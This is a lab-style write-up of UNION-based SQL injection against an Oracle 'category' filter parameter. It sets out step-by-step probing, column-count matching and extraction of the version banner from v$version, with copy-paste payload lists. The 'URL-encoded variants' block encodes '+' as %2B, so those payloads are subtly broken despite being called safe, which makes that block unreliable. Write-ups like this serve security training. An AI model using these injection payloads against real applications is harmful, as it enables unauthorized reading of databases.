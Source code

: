 # SQL Injection – Oracle Version Enumeration (UNION-based)

A concise write-up using **my original steps** (verbatim) with small, accurate notes and payload blocks.

---

## 🥅 Goal
**Discover the Oracle database version** by extracting from `v$version`.

---

## ✅ My Exact Steps (Verbatim)

1. **GOAL: we need to discover the database version, we already know its oracle. which make the extraction query being: `SELECT BANNER FROM v$version`**

2. **Finding the vulnerable parameter: `/filter?category='` -> provide status 500 internal server error**

3. **fixing the bug: `/filter?category='--;`**

4. **We know the default table in oracle is "DUAL".**

5. **We need to make diff query, to combine to query's we'll be using UNION**

6. **payload: `/filter?category='+UNION+SELECT+NULL+FROM+DUAL--;` -> this gives status 500.**

7. **Checking to see if the database returning more than one column: `/filter?category='+UNION+SELECT+NULL,NULL+FROM+DUAL--;` -> gives 200**

8. **Trying to extract the banner: `/filter?category='+UNION+SELECT+BANNER,NULL+FROM+v$version--;`**

---

## 🧠 Minimal Additions (Why This Works)

- **Oracle basics**: `SELECT ... FROM DUAL` is required when selecting constants without a table. Views like `v$version` already have a table source, so you **do not** add `FROM DUAL` there.
- **UNION requirements**: The injected `UNION SELECT` must match the **number of columns** and their **types** returned by the original query.  
  - Step 6 (1 column) ⇒ **500 error** → column count/type mismatch.  
  - Step 7 (2 columns) ⇒ **200 OK** → now the **count matches**.
- **Text column alignment**: `BANNER` is a **text** column. Placing it in a position that the app renders (e.g., the first column if the front-end prints it) reveals the version string. A filler `NULL` keeps the column count aligned.
- **Comments**: `--` comments out the rest of the line. Ensure a **space** after it (often encoded as `+`) when needed. Your `--;` works in many labs; a robust variant is `--+`.
- **URL encoding**: `+` is interpreted as a space in query strings; use `%20` for an explicit space if the server treats `+` differently.

---

## 🔧 Payloads I Used (Copy/Paste)

**As entered (human-readable):**
```txt
/filter?category='
/filter?category='--;
/filter?category='+UNION+SELECT+NULL+FROM+DUAL--;
/filter?category='+UNION+SELECT+NULL,NULL+FROM+DUAL--;
/filter?category='+UNION+SELECT+BANNER,NULL+FROM+v$version--;
```

**URL-encoded variants (safe in raw requests):**
```txt
/filter?category=%27
/filter?category=%27--%2B
/filter?category=%27%2BUNION%2BSELECT%2BNULL%2BFROM%2BDUAL--%2B
/filter?category=%27%2BUNION%2BSELECT%2BNULL%2CNULL%2BFROM%2BDUAL--%2B
/filter?category=%27%2BUNION%2BSELECT%2BBANNER%2CNULL%2BFROM%2Bv%24version--%2B
```

> Tip: If the app expects the textual column in a different index, try swapping positions (e.g., `NULL,BANNER`) to surface output.

---

## 🏁 Result
- `BANNER` textual rows from `v$version` are returned via the vulnerable endpoint, revealing the **Oracle database version**. ✅
